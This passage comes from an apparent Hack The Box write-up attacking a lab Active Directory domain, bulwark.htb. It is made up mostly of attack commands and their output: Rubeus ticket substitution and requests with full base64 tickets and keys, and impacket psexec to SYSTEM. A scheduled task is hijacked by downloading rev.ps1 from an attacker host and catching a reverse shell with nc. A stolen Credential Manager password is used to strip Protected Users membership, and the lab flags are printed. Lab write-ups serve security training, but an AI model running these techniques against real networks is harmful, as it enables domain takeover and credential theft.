cvb6QC5t5stRwDK3ClK2rUdGiM+2VWn6fgXlbR4xglCu8784VhOXDmVFe6mOG54zSaga+Ji5pzevWX9U7daS17aq4Rjd4Mk05Ae1Fxve53G9EngDqrhtSX+ZZWFE3lStSF560gXDTBLgc30N4rqqdm74hJHPKVRfVG71Qm+OO/EihFzguLHIAciOZ
WUmfTkBYjqAkk0X5YCUwAzNrATY/Vp698A04pnxN0ndAYnCkx146VGEcdPZbS1+jkQO4WDtIKQVgXgGxp+hEW6DeXnm2OR9cIvLmeU0Rt+zRuIkAd4IfWWgU4hdswIB+ECyMfVMgDUnAt0fu5124LvO5rtkv0smSkQvkQOh942U/yHjqHhVJMoy8j
lLgW+ENoi/3z/iWXOwOCB2BomelzZDLbP5KfcnwiR1IfCLf38F8iB+GwI+PTyT6o8RF7dJXC7FAoKDvMagkJm+xtqjl61YjqEy610l8f51zmzNPZzXYGW+ey2kh6/t5ic9045YHkRF24nd+NT2LBlj3Q/itRnPIT1LP2/oiXSj0OwxgR7Rngh3cg2
jx4ZMk/v+b81iRtBL9sKCe0hj5s82MolTnISG42tX52T0tq5zbWJ9+Yd2AGH+JK7ntuPTE6gH5nslRGTGk2rQ4M3pTQk8ZI/kVTZ36XFWqhaIIQ/L+jkoJzlKxfyLlDXyH9ajVnw7URRah4rclaD62AP9E1fwJ7GlQPtOulvZBOnP5KVXQVNpGhrJ
ZTi0a+nLFH/kjGV7+OnRLlwg35BjpGkcyRDI+M51NDI5I4OPkJjdIppgmmSuBRsrP6uzTw9F5DheHBXutlaIogiBu6sgWi5rDcyaO4lTCXk7IuTfusW8xA8C9ZWVyT56YHjczH8/LVzCYHtJQIOI9Sa2TEF9+NfpBAS9plVJQwvbPa/e8w2So+Iz0
HquCiKdQ2BQdHXCNlPpw2LrRyteKCks3mKa8Y9UnyoYgFxOsRV1A/FOw7Hu6yxT+i2efL4Gpusfdj3wFAnZqet0JwbWJBM6mYqhTwOjsfT20kMq7FMeC+yO8a+M4XofQrHaogvxdt8hSlItV2gLFfp9tJ+8/PjJE7oIJ6Z7kISBttXTYr+Mjk/ywl
UyQGBrv298/DUDpJB49SJ1mimPWb5pGAydpS2nsxuHhZRwXZ1cpYlbQQ2q0y4ivFEsCA/ycVnAquReW4f5OHulMepaRlPxzynqfWHFVn5LoeTihu5z+7+XwIbcnC/togHT6t0gE/Qgqi2AoAIOPInUXbF+FM5a0NZTNAWZYJE3/WTQi/IXdZnwcYZ
lzAuVeWfvWZRAFiz3CiG3rvhkT2fWV7wIxKyJCW/55cznVSvRkUEgSDicHqjfW9g8588L9VCZwMI/vn0EP14GMe+UMN+Ld5dZg8gT7Vs2PsznWtCW+1uw9461FNWxrZ49iCzNIb6Agaea9V4PQXJhGVnPZbR6Ck516zmKaoXtFRW5UAGw+CXKNeoi
41IHh4yldTR3NNJTVtiUwNF6s3cSxx/nnbgr/l6OBzzCBzKADAgEAooHEBIHBfYG+MIG7oIG4MIG1MIGyoBswGaADAgERoRIEEHSvrHK+z0JrwZfkuXwyAPmhDRsLQlVMV0FSSy5IVEKiGjAYoAMCAQqhETAPGw1hZG1pbmlzdHJhdG9yowcDBQBAoQAApREYDzIwMjQwNTE0MjE0NzI2WqYRGA8yMDI0MDUxNTA0MzYxNFqnERgPMjAyNDA1MjExODM2MTRaqA0bC0JVTFdBUksuSFRCqRcwFaADAgECoQ4wDBsEY2lmcxsERlMwMQ== /altservice:HOST/FS02.bulwark.htb /nowrap


   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 


[*] Action: Service Ticket sname Substitution

[*] Substituting in alternate service name: HOST/FS02.bulwark.htb

  ServiceName              :  HOST/FS02.bulwark.htb
  ServiceRealm             :  BULWARK.HTB
  UserName                 :  administrator
  UserRealm                :  BULWARK.HTB
  StartTime                :  5/14/2024 2:47:26 PM
  EndTime                  :  5/14/2024 9:36:14 PM
  RenewTill                :  5/21/2024 11:36:14 AM
  Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
  KeyType                  :  aes128_cts_hmac_sha1
  Base64(key)              :  dK+scr7PQmvBl+S5fDIA+Q==
  Base64EncodedTicket   :

    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
```

We can then take the encoded kirbi, decode it and format it to a `ccache`.

```
echo "<b64_output>" | base64 -d > admfs02.kirbi

└─$ impacket-ticketConverter admfs02.kirbi admfs02.ccache
Impacket v0.11.0 - Copyright 2023 Fortra

[*] converting kirbi to ccache...
[+] done
```

Now, lets use the generated ticket to verify our access on `FS02`.

```
└─$ KRB5CCNAME=./admfs02.ccache proxychains4 -q crackmapexec smb FS02.bulwark.htb -k --use-kcache                              
SMB         FS02.bulwark.htb 445    FS02             [*] Windows 10.0 Build 17763 x64 (name:FS02) (domain:bulwark.htb) (signing:False) (SMBv1:False)
SMB         FS02.bulwark.htb 445    FS02             [-] bulwark.htb\ from ccache STATUS_LOGON_TYPE_NOT_GRANTED 

```

### Finding the correct user

We see the `STATUS_LOGON_TYPE_NOT_GRANTED` error message. If we search again through the article mentioned before, we can see that there are certain groups that disallow `network logons`. One such group is the `Protected Users` group. We can check to see if the `Administrator` user is a member of the `Protected Users` group.

```
PS C:\inetpub\BulwarkADM\api\v2\files> Get-ADGroupMember -Identity "Protected Users"
Get-ADGroupMember -Identity "Protected Users"


distinguishedName : CN=Administrator,CN=Users,DC=bulwark,DC=htb
name              : Administrator
objectClass       : user
objectGUID        : 3e632db3-b8fb-472d-840f-b15af2df1edd
SamAccountName    : Administrator
SID               : S-1-5-21-4088429403-1159899800-2753317549-500

distinguishedName : CN=George Melworth,CN=Users,DC=bulwark,DC=htb
name              : George Melworth
objectClass       : user
objectGUID        : 0b199c18-884f-479b-a6fd-c9b60f637f0a
SamAccountName    : g.melworth
SID               : S-1-5-21-4088429403-1159899800-2753317549-3602
```

The `Administrator`, along with the user `George Melworth` are members of the `Protected Users` group, therefore we cannot use these two accounts to gain access to `FS02`.

Back to the enumeration phase, we can search in `bloodhound` for any special accounts in the domain. One such account is the `useradm` account, which seems to be able to control membership on the `Protected Users` group.



So now, we can proceed to check if we can get access to `FS02` with the user `useradm`. We will follow the same procedure, only this time we will impersonate the user `useradm` instead of the user `administrator` during the forwardable service ticket generation. This will result in a similar failure, highlighting that this user has also some kind of restriction on his access to `FS02`. Even if we could access `FS02` with `useradm` this way, we wouldn't be able to use his AddMember property, since the `TGS` we have is only valid for `FS02`, not the DC. We would have to find a way to obtain a `TGT` for `useradm` in order to proceed further.

Trying the same method with different users, we can see that we have access to `FS02` with the user `a.garton` as a simple user. However, we haven't tried to authenticate to `WinRM` towards `FS02` yet. We follow the same procedure, impersonating the user `a.garton` and using the `HTTP/FS02.bulwark.htb` SPN. Then we use this ticket to attempt a `WinRM` authentication (remember to update krb5.conf accordingly).

```
export KRB5CCNAME=/var/tmp/gartonfs02.ccache

└─$ proxychains4 -q evil-winrm -i FS02.bulwark.htb -r bulwark.htb
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\a.garton\Documents>
```

We can then grab the user flag from the user's Desktop.

```
*Evil-WinRM* PS C:\Users\a.garton\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\a.garton\Desktop> type user.txt
HTB{K3rb3r0$_1z_MY_sW33T_P3t_!!}
```

# Lateral Movement - From a.garton to g.melworth (FS02)

## Got a shell?

Running `winpeas` on this session provides only one significant piece of information.

```
.
.
.
Scheduled Applications --Non Microsoft--                                                                                                                                                
 Check if you can modify other users scheduled binaries https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries      
    (BULWARK\g.melworth) OldQueueDelete: powershell.exe -File C:\Users\a.garton\scripts\OldDelete.ps1                                                                                    
    Permissions file: a.garton [AllAccess]                                                                                                                                               
    Trigger: At system startup     
.
.
.
```

`a.garton` has access to start and stop the `OldQueueDelete` task, along with access to the executable it runs, `OldDelete.ps1`. At this point, it is useful to mention something that is usually overlooked: WinRM session are restricted. You can find more details in this article: https://www.bloggingforlogging.com/2018/01/24/demystifying-winrm/ . For example, if we try to run a simple domain request to get the domain users:

```
*Evil-WinRM* PS C:\Users\a.garton\Documents>net user /DOMAIN
The request will be processed at a domain controller for domain bulwark.htb.

net.exe : System error 5 has occurred.
    + CategoryInfo          : NotSpecified: (System error 5 has occurred.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError

```

We are greeted with an error. We can leverage our control over the `OldQueueDelete` service, to gain a normal session with the user `a.garton`. For that, we will overide the `OldDelete.ps1` script with a `powershell reverse shell` and then run the scheduled task.

```
*Evil-WinRM* PS C:\Users\a.garton\Documents> schtasks /end /tn "OldQueueDelete"                                                                                         
SUCCESS: The scheduled task "OldQueueDelete" has been terminated successfully.

*Evil-WinRM* PS C:\Users\a.garton\scripts> move OldDelete.ps1 OldDelete_backup.ps1

*Evil-WinRM* PS C:\Users\a.garton\scripts> Invoke-WebRequest -Uri 'http://10.10.14.81:8081/rev.ps1' -OutFile OldDelete.ps1

*Evil-WinRM* PS C:\Users\a.garton\scripts> schtasks /run /tn "OldQueueDelete"
SUCCESS: Attempted to run the scheduled task "OldQueueDelete".

└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.81] from (UNKNOWN) [10.129.95.232] 49842
SHELL> whoami
bulwark\a.garton
SHELL> 
```

## Group Modification

Running `winpeas` again with the upgraded session, we find out a piece of information we didn't receive before.

```
.
.
.
T%P%P%P%P%P%P%P%P%P%P%c% Checking Credential manager                                                                                                                                     
Z%  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#credentials-manager-windows-vault                                                                   
    [!] Warning: if password contains non-printable characters, it will be printed as unicode base64 encoded string                                                                      
                                                                                                                                                                                         
                                                                                                                                                                                         
     Username:              useradm                                                                                                                                                      
     Password:               oo03ifk3L(#kfL)                                                                                                                                             
     Target:                FS02                                                                                                                                                         
     PersistenceType:       Enterprise                                                                                                                                                   
     LastWriteTime:         5/14/2024 3:59:22 PM
.
.
.
```

It appears that the user has credentials stored in the `Credential Manager` for the user `useradm`. We can now use the credentials of `useradm` to perform changes in the `Protected Users` group. As we already mentioned before, the only reason we couldn't impersonate the Domain Administrators of the domain, is because they are members of the `Protected Users` group. If we remove `g.melworth` from the `Protected Users` group, we can then perform the same steps as before on `MS01` to gain a service ticket for `FS02` with the user `g.melworth`.

First, we prepare the `ldif` file to use.

```
└─$ cat remove.ldif
dn: CN=Protected Users,CN=Users,DC=bulwark,DC=htb
changetype: modify
delete: member
member: CN=George Melworth,CN=Users,DC=bulwark,DC=htb
```

Then we use `ldapmodify` to remove the user.

```
└─$ proxychains4 -q ldapmodify -x -D "CN=Brock Lesley,CN=Users,DC=bulwark,DC=htb" -w 'oo03ifk3L(#kfL)' -H ldap://dc01.bulwark.htb -f remove.ldif
modifying entry "CN=Protected Users,CN=Users,DC=bulwark,DC=htb"
```

Now we can proceed to impersonate the user `g.melworth` towards the `cifs/FS02` SPN in order to gain access to `FS02`.

```
└─$ KRB5CCNAME=./melworthfs02.ccache proxychains4 -q impacket-psexec FS02.bulwark.htb -k -no-pass -dc-ip 192.168.2.1 -target-ip 192.168.2.3                                              
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 192.168.2.3.....
[*] Found writable share ADMIN$
[*] Uploading file LASACZnP.exe
[*] Opening SVCManager on 192.168.2.3.....
[*] Creating service qqKU on 192.168.2.3.....
[*] Starting service qqKU.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.5696]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>
```

# Privilege Escalation - Access to Domain Controller

Now even if we have access to `FS02` as `g.melworth`, we are still limited with what we can do with this session since the service ticket we have is only valid for `FS02`. We need to request a service ticket for the domain controller in order to proceed further. Using `Rubeus` we can dump a `TGT` for the user `g.melworth` that is cached on the machine, and use it to request a service ticket for `cifs/DC01.bulwark.htb`.

```
(Rubeus.exe triage and Rubeus.exe dump as before for the g.melworth TGT)
Then:

C:\Windows\Temp> .\Rubeus.exe asktgs /user:g.melworth /ticket:doIF2DCCBdSgAwIBBaEDAgEWooIE3jCCBNphggTWMIIE0qADAgEFoQ0bC0JVTFdBUksuSFRCoiAwHqADAgECoRcwFRsGa3JidGd0GwtCVUxXQVJLLkhUQqOCBJg
wggSUoAMCARKhAwIBAqKCBIYEggSCX9f66HvSs+LyOXy28nyO+i6H3NG4BScvnX3kICaulUGds8iapPv1LiF0wTxXvf7qtD9BlUppbIvwI2yQ7C5uMSMTBtc8Sjpz062LRFn4dYDibRp2ZSrpaJI2UsG4d9a53M+9mU2po7QLRSLrlOIZTwsDqk7H
us2x2mg7t/Ks1U/N1Ofik+8A7oR3bckx+kC+Exp0Seh0lePWZn6VxH5Zsv9q/JWwt3BTexkHK+P/eXRbmJ8FS6/bKSd8eBD3Mg6Z56DKjtc5HgEKvxy1UC0FWrSSVXhZZIG+tv6mjCVtalzl3fF26XNgfiYGQtggNoOZ8cvbpNDtiHHT2RfVrULVQ
gP6UByep/qQ7tTxHtbxOqLgRz78PELjQAZEqFk4iCHs26703yHJttqwfFH0rtPGlR2aljU0ra8OmyQvb9Q9DpA6HuPpMa3MdvZbI9ifGVRFHhqDc/ligGQz+v0ZHS4pl76hkW9qVee8KJAW81vFxBys53Ln3ZONI2d0T1vfK1QmamM3oca5V3FIgZ
vD+7Uojdbk8hf9q9yYzr1hAqektoI+7/6eLzB50Ils49vrXa18aO1a0GOYvT7SPKafpg8F/ogNidkTrZHLgs7gl4BVLkqqsmAfiiGfSP/69qXmJCkiLomAfYDSQd522by9KspJDW51UDpGlQJ0NhW3NRoqTgoIm+XGjgjjNrsQu/+LOl+CCm0bhkS
gFSO/xGDINhV/xCXG/+zfbE565CgsbtGbKMmzTlfr8MPMOKxLl5PX3aKLvC5zHQJGR7YHBL5R6DAJdWQXey1ZMYqfgByKGLHCki/tKvrKADHuhgjPKRbLtzaXSu7jPJOES+aO/KSAKIbwqc6PjuqEe0SmixKjX1++efXmzlF+QHkslWGIzF/o2sz6
k7KSFKZMPemQBZH512D5YnS4EgTkUV0hnvjiHK0hgjJb1+amJc22iomh5d5ROPtWaBPzc4G3LyIeNqUE4fK8fD9NniLE/rPwNuN6aU72/09K/fZ0ZUAk5OnkhlUoIWqgzr23prNTprteRorext9sSZFzpDFTaerPsOXoFVfEFx8DpAhdIJUBqd8AB
xZE9BxWwhMjmKz39LQ4UhrYO8RAHv99LOBxoeXPoXRaRp8Hv1FvA6bt4Y3O0qsTPwAgmhB3GPY6FvRISeVNNXHkPBivsuQr9paxeykQQ5ruxI4d8HxSZQSyzr/S4y8dIAJ0AmpLj8EZ7CddI5mqFR5+qJhwzpYVvqHd//6WMlDRnKujt/jRD3YVzJ
nCOSJU7RnNKbwjupvhuBBsg0fYyXvLxksIrEdvogzHvrwjBIDy2lbyDrR2g1LSfK3hjxEdPQPVs8IpQnn+4q6NV5nqWImun8DyQvIi2qwGOqCtujmy0d6zVJ9IFu5R5UM5YoC8Hzj8XZz8RvPFD6K99FKx4FrmmGjD65Yni13ZT80HxurBmoim5gq
Bs1m7lMaTXwDMM3aSBu3aFEwzosdHVSfCk7WgfaIbZB0iPXnYS3sew9jg1ByFpQaaUBbS0+zdp55RvHfA1eHPKYajgeUwgeKgAwIBAKKB2gSB132B1DCB0aCBzjCByzCByKArMCmgAwIBEqEiBCD4E1TY8eTCJvsPkYh9GYnwU5V0uobmy/IpB/Si
5hF6F6ENGwtCVUxXQVJLLkhUQqIXMBWgAwIBAaEOMAwbCmcubWVsd29ydGijBwMFAADhAAClERgPMjAyNDA1MTQyMjI0NTVaphEYDzIwMjQwNTE1MDIyNDU1WqcRGA8yMDI0MDUxNTAyMjQ1NVqoDRsLQlVMV0FSSy5IVEKpIDAeoAMCAQKhFzAVG
wZrcmJ0Z3QbC0JVTFdBUksuSFRC /service:cifs/DC01.bulwark.htb /nowrap                                                                                                                       
ervice:cifs/DC01.bulwark.htb /nowrap                                                                                                                                                     
                                                                                                                                                                                         
   ______        _                                                                                                                                                                       
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 

[*] Action: Ask TGS

[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'cifs/DC01.bulwark.htb'
[*] Using domain controller: DC01.bulwark.htb (192.168.2.1)
[+] TGS request successful!
[*] base64(ticket.kirbi):

      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
ERDMDEuYnVsd2Fyay5odGI=

  ServiceName              :  cifs/DC01.bulwark.htb
  ServiceRealm             :  BULWARK.HTB
  UserName                 :  g.melworth
  UserRealm                :  BULWARK.HTB
  StartTime                :  5/14/2024 4:19:33 PM
  EndTime                  :  5/14/2024 7:24:55 PM
  RenewTill                :  5/14/2024 7:24:55 PM
  Flags                    :  name_canonicalize, ok_as_delegate, pre_authent, renewable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  apV59gmdkaFALJPyhwhxfZ4oadiMPAXWKYj0uXBcnh0=

```
We then gain access to `DC01` as `g.melworth` and retrieve the root flag.

```
└─$ KRB5CCNAME=./melworthdc01.ccache proxychains4 -q impacket-psexec DC01.bulwark.htb -k -no-pass -dc-ip 192.168.2.1 -target-ip 192.168.2.1                                              
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 192.168.2.1.....
[*] Found writable share ADMIN$
[*] Uploading file mrdgCOjM.exe
[*] Opening SVCManager on 192.168.2.1.....
[*] Creating service ToCa on 192.168.2.1.....
[*] Starting service ToCa.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.5696]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
HTB{Th3_v@uLt_!z_194_f33T_b3l0W_y0u_!!!}
C:\Windows\system32> 
```
